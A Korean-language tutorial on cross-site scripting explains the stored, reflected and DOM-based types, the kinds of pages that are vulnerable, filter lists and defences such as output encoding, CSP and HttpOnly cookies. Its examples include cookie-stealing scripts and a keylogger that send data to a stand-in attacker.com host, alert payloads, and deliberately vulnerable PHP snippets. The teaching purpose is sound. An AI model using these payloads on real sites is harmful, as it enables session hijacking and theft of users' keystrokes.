

## 개요

XSS(Cross-Site Scripting) 공격은 웹 애플리케이션의 가장 일반적이고 위험한 취약점 중 하나입니다. 이 문서에서는 XSS 공격의 개념, 종류(Stored XSS, Reflected XSS, DOM-based XSS), 공격 원리, 그리고 효과적인 방어 방법을 학습합니다.

## XSS (Cross-Site Scripting) 공격

### 개념

XSS는 웹 애플리케이션에서 사용자 입력값에 대한 검증(필터링)이 제대로 이루어지지 않을 경우 발생하는 취약점입니다.

**핵심 특징:**
- 공격자가 URL 또는 게시판 등에 악의적 스크립트를 삽입
- 해당 스크립트가 희생자 측에서 실행되도록 유도
- 사용자의 실행 행위 없이 자동으로 실행되는 원리
- **클라이언트 컴퓨터를 대상으로 한 공격**

### 동작 원리



웹 브라우저가 다운로드한 HTML 문서를 출력할 때, HTML 문서 속의 JavaScript 코드가 자동으로 실행되는 것과 같은 원리로 악성 코드가 사용자의 실행 행위 없이 자동으로 실행됩니다.

### 피해 형태

| 피해 유형 | 설명 |
|---------|------|
| **쿠키 정보 탈취** | 세션 ID 등 인증 정보 유출 |
| **개인정보 유출** | 사용자의 민감한 정보 탈취 |
| **악성코드 감염** | 사용자 시스템에 악성코드 설치 |
| **웹 페이지 변조** | 피싱 페이지로 변조하여 추가 공격 |
| **권한 도용** | 사용자 권한으로 부정 행위 수행 |

## XSS 공격 종류

### 1. Stored XSS (저장형)

가장 일반적이고 위험한 공격 유형입니다.

**공격 과정:**
1. 게시판, 자료실 등 사용자가 글을 저장할 수 있는 부분에 악의적 스크립트 코드를 입력하여 저장
2. 게시물이 서버에 영구적으로 저장됨
3. 다른 사용자가 게시물을 열람하는 순간 악성 스크립트 실행
4. 불특정 다수가 피해를 입을 수 있음

**예시:**
```html
<!-- 게시판 글 작성 시 -->
<script>
document.location='http://attacker.com/steal.php?cookie='+document.cookie
</script>
```

**특징:**
- 서버에 악성 코드가 저장되어 지속적인 공격 가능
- 불특정 다수에게 피해 발생
- 가장 위험한 XSS 유형

### 2. Reflected XSS (반사형)

사용자가 악성코드가 포함된 URL을 클릭할 때 발생하는 공격입니다.

**공격 과정:**
1. 공격자가 악성 스크립트 코드가 인자 형태로 포함된 URL 생성
2. 해당 URL을 이메일, 메신저 등으로 전파
3. 사용자가 URL을 클릭
4. 악성 스크립트 코드가 서버 사이트에 의해 공격 대상자에게 HTML 문서로 반사
5. 공격 대상자의 웹 브라우저에서 스크립트 실행

**예시:**
```
http://vulnerable-site.com/search.php?q=<script>alert(document.cookie)</script>
```

**인코딩된 URL 예시:**
```
http://vulnerable-site.com/search.php?q=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E
```

**특징:**
- 서버에 악성 코드를 남기지 않음
- URL을 통해 전파되며, 주로 인코딩하여 사용자가 눈치채지 못하도록 함
- 소셜 엔지니어링 기법과 결합되어 사용

### 3. DOM-based XSS

Document Object Model을 악용한 클라이언트 측 공격입니다.

**DOM(Document Object Model)이란?**
- HTML 및 XML 문서에 접근하는 방법을 표준으로 정의하는 문서 객체 모델
- HTML 문서를 계층적으로 보면서 콘텐츠를 동적으로 변경 가능

**공격 원리:**
- 피해자의 브라우저가 HTML 페이지를 구문 분석할 때마다 공격 스크립트가 DOM 생성의 일부로 실행
- 페이지 자체는 변하지 않으나, 페이지에 포함된 브라우저측 코드가 DOM 환경에서 악성코드로 실행
- **서버와 관계없이 브라우저에서 발생**

**차이점:**

| 구분 | Stored/Reflected XSS | DOM-based XSS |
|-----|---------------------|---------------|
| 공격 지점 | 서버측 애플리케이션 취약점 | 클라이언트측 JavaScript 취약점 |
| 서버 로그 | 공격 흔적 남음 | 공격 흔적 없음 |
| 페이지 변조 | 서버 응답이 변조됨 | 페이지는 그대로, DOM만 변조됨 |

**예시:**
```javascript
// 취약한 코드
var pos = document.URL.indexOf("name=") + 5;
document.write(document.URL.substring(pos, document.URL.length));

// 공격 URL
http://vulnerable-site.com/welcome.html?name=<script>alert(document.cookie)</script>
```

## XSS 취약 유형

### 1. HTML을 지원하는 게시판

게시판에서 HTML 태그를 허용할 경우, 스크립트 태그를 삽입하여 공격할 수 있습니다.

```html
<script>
location.href='http://attacker.com/steal.php?cookie='+document.cookie
</script>
```

### 2. 검색 페이지

검색 결과를 표시할 때 사용자 입력을 그대로 출력하는 경우:

```html
<!-- 취약한 코드 -->
<p>검색어: <?php echo $_GET['query']; ?></p>

<!-- 공격 입력 -->
<script>alert('XSS')</script>
```

### 3. 회원가입 페이지

사용자 입력 필드(이름, 주소 등)에 스크립트를 삽입하여 저장하고, 관리자 페이지에서 조회 시 실행:

```html
이름: <script>/* 악성 코드 */</script>
```

### 4. Referrer(참조)를 이용하는 페이지

HTTP Referrer 정보를 검증 없이 출력하는 페이지:

```php
<?php echo "이전 페이지: " . $_SERVER['HTTP_REFERER']; ?>
```

### 5. 사용자 입력을 화면에 출력하는 모든 페이지

사용자로부터 입력받아 화면에 출력해주는 모든 페이지는 잠재적으로 취약합니다.

## 필터링 대상

### 스크립트 정의어

```html
<script>      <!-- 가장 일반적인 스크립트 태그 -->
<object>      <!-- 외부 객체 삽입 -->
<applet>      <!-- Java 애플릿 실행 -->
<embed>       <!-- 플러그인 콘텐츠 삽입 -->
<form>        <!-- 폼 태그를 통한 데이터 전송 -->
<iframe>      <!-- 인라인 프레임 -->
```

### 특수문자

```
<     (태그 시작)
>     (태그 종료)
'     (싱글 쿼터)
"     (더블 쿼터)
&     (앰퍼샌드)
%     (퍼센트)
%00   (null 바이트)
```

### 이벤트 핸들러

```html
onerror="alert('XSS')"
onload="alert('XSS')"
onclick="alert('XSS')"
onmouseover="alert('XSS')"
```

## XSS 공격 예시

### 기본 공격 벡터

```html
<!-- 1. 기본 스크립트 태그 -->
<script>alert('XSS')</script>

<!-- 2. IMG 태그 이용 -->


<!-- 3. SVG 태그 이용 -->
<svg onload="alert('XSS')">

<!-- 4. IFRAME 태그 이용 -->
<iframe src="javascript:alert('XSS')">

<!-- 5. A 태그 이용 -->
<a href="javascript:alert('XSS')">클릭</a>
```

### 쿠키 탈취 공격

```javascript
<script>
var img = new Image();
img.src = 'http://attacker.com/steal.php?cookie=' + document.cookie;
</script>
```

### 키로거 공격

```javascript
<script>
document.onkeypress = function(e) {
    var img = new Image();
    img.src = 'http://attacker.com/keylog.php?key=' + String.fromCharCode(e.which);
}
</script>
```

## XSS 보안 대책

### 1. 입력값 검증 및 문자 변환

특수문자를 HTML 엔티티로 변환하여 무효화합니다.

| 특수문자 | HTML 엔티티 | 설명 |
|---------|-----------|------|
| `<` | `&lt;` | Less than |
| `>` | `&gt;` | Greater than |
| `"` | `&quot;` | Quotation mark |
| `'` | `&#x27;` | Apostrophe |
| `&` | `&amp;` | Ampersand |

**PHP 예시:**
```php
<?php
// htmlspecialchars() 함수 사용
$safe_output = htmlspecialchars($user_input, ENT_QUOTES, 'UTF-8');
echo $safe_output;
?>
```

**JavaScript 예시:**
```javascript
function escapeHtml(text) {
    const map = {
        '&': '&amp;',
        '<': '&lt;',
        '>': '&gt;',
        '"': '&quot;',
        "'": '&#x27;'
    };
    return text.replace(/[&<>"']/g, m => map[m]);
}
```

### 2. 서버 단 검증

**중요:** 사용자 입력값에 대한 검증은 반드시 서버 단에서 수행해야 합니다.

클라이언트 측 검증만으로는 불충분합니다:
- JavaScript를 비활성화할 수 있음
- HTTP 요청을 직접 조작할 수 있음
- 프록시 도구로 우회 가능

```php
<?php
// 서버 측 검증 예시
function validateInput($input) {
    // 1. 허용된 문자만 포함되었는지 확인
    if (!preg_match('/^[a-zA-Z0-9가-힣\s]+$/', $input)) {
        return false;
    }

    // 2. 길이 제한
    if (strlen($input) > 100) {
        return false;
    }

    return true;
}

$user_input = $_POST['comment'];
if (validateInput($user_input)) {
    $safe_input = htmlspecialchars($user_input, ENT_QUOTES, 'UTF-8');
    // 데이터베이스에 저장
} else {
    // 에러 처리
}
?>
```

### 3. Content Security Policy (CSP)

HTTP 헤더를 통해 스크립트 실행을 제한합니다.

```apache
# Apache httpd.conf 또는 .htaccess
Header set Content-Security-Policy "default-src 'self'; script-src 'self' https://trusted-cdn.com"
```

**CSP 지시어:**
```
Content-Security-Policy:
    default-src 'self';                           # 기본적으로 자신의 도메인만 허용
    script-src 'self' https://trusted-cdn.com;    # 스크립트 출처 제한
    style-src 'self' 'unsafe-inline';             # 스타일 출처 제한
    img-src 'self' data: https:;                  # 이미지 출처 제한
```

### 4. HTTP-only 쿠키

JavaScript에서 쿠키에 접근하지 못하도록 설정합니다.

```php
<?php
// PHP에서 HttpOnly 쿠키 설정
setcookie('sessionid', $session_id, [
    'httponly' => true,
    'secure' => true,      // HTTPS에서만 전송
    'samesite' => 'Strict' // CSRF 방어
]);
?>
```

### 5. 웹 서버 설정

**텍스트 형식으로 변환하여 출력:**
- HTML 코드를 사용하지 않는 곳에서는 게시판 제목 또는 내용을 텍스트 형식으로 변환하여 출력

```php
<?php
// HTML을 제거하고 텍스트만 출력
$text_only = strip_tags($user_input);
echo $text_only;
?>
```

### 6. 보안 장비 사용

**웹 애플리케이션 방화벽(WAF):**
- 대부분의 XSS 공격 탐지 가능
- 난독화된 공격은 탐지 어려움
- 정기적인 시그니처 업데이트 필요

### 7. 출력 컨텍스트별 인코딩

출력되는 위치에 따라 적절한 인코딩 방법을 사용해야 합니다.

| 컨텍스트 | 인코딩 방법 | 예시 |
|---------|-----------|------|
| HTML 본문 | HTML 엔티티 인코딩 | `&lt;script&gt;` |
| HTML 속성 | HTML 속성 인코딩 | `&quot;` |
| JavaScript | JavaScript 인코딩 | `\x3Cscript\x3E` |
| URL | URL 인코딩 | `%3Cscript%3E` |
| CSS | CSS 인코딩 | `\3C script\3E` |

## 실전 시나리오

### 시나리오 1: 게시판 XSS 공격

**상황:**
웹 애플리케이션의 게시판에 사용자가 글을 작성할 수 있으며, HTML 태그 필터링이 제대로 되지 않습니다.

**공격 과정:**
1. 공격자가 게시판에 악성 스크립트가 포함된 글 작성
   ```html
   안녕하세요!
   <script>
   fetch('http://attacker.com/steal?cookie=' + document.cookie);
   </script>
   ```

2. 일반 사용자가 해당 게시물을 조회
3. 스크립트가 자동 실행되어 쿠키 정보가 공격자 서버로 전송됨
4. 공격자가 탈취한 세션 ID로 피해자 계정에 접근

**방어 방법:**
```php
<?php
// 게시물 저장 시
$title = htmlspecialchars($_POST['title'], ENT_QUOTES, 'UTF-8');
$content = htmlspecialchars($_POST['content'], ENT_QUOTES, 'UTF-8');

// 데이터베이스에 저장
$stmt = $pdo->prepare("INSERT INTO posts (title, content) VALUES (?, ?)");
$stmt->execute([$title, $content]);

// 게시물 조회 시
echo "<h1>" . htmlspecialchars($post['title'], ENT_QUOTES, 'UTF-8') . "</h1>";
echo "<div>" . htmlspecialchars($post['content'], ENT_QUOTES, 'UTF-8') . "</div>";
?>
```

### 시나리오 2: 검색 결과 페이지 XSS

**상황:**
검색 결과 페이지에서 검색어를 그대로 출력합니다.

**공격 URL:**
```
http://example.com/search?q=<script>alert(document.cookie)</script>
```

**취약한 코드:**
```php
<?php
echo "검색 결과: " . $_GET['q'];
?>
```

**안전한 코드:**
```php
<?php
$search_query = htmlspecialchars($_GET['q'], ENT_QUOTES, 'UTF-8');
echo "검색 결과: " . $search_query;
?>
```

### 시나리오 3: 프로필 페이지 Stored XSS

**상황:**
사용자 프로필 정보를 수정할 때 XSS 필터링이 없습니다.

**공격:**
```
이름: 
```

**방어:**
```php
<?php
// 프로필 정보 업데이트
$name = htmlspecialchars($_POST['name'], ENT_QUOTES, 'UTF-8');
$bio = htmlspecialchars($_POST['bio'], ENT_QUOTES, 'UTF-8');

// 추가 검증: 허용된 문자만 포함되었는지 확인
if (!preg_match('/^[가-힣a-zA-Z\s]+$/', $_POST['name'])) {
    die("이름에 허용되지 않은 문자가 포함되어 있습니다.");
}

$stmt = $pdo->prepare("UPDATE users SET name = ?, bio = ? WHERE id = ?");
$stmt->execute([$name, $bio, $user_id]);
?>
```

## 마무리

XSS는 웹 애플리케이션에서 가장 흔하게 발생하는 취약점 중 하나입니다. Stored XSS는 서버에 악성 코드를 저장하여 불특정 다수에게 피해를 입히고, Reflected XSS는 URL을 통해 특정 사용자를 표적으로 공격하며, DOM-based XSS는 클라이언트 측에서만 발생하여 탐지가 어렵습니다.

효과적인 방어를 위해서는 **모든 사용자 입력을 신뢰하지 않고**, 출력 시 적절한 인코딩을 적용하며, 서버 측에서 검증을 수행하고, CSP와 HttpOnly 쿠키 등 다층 방어 전략을 적용해야 합니다.
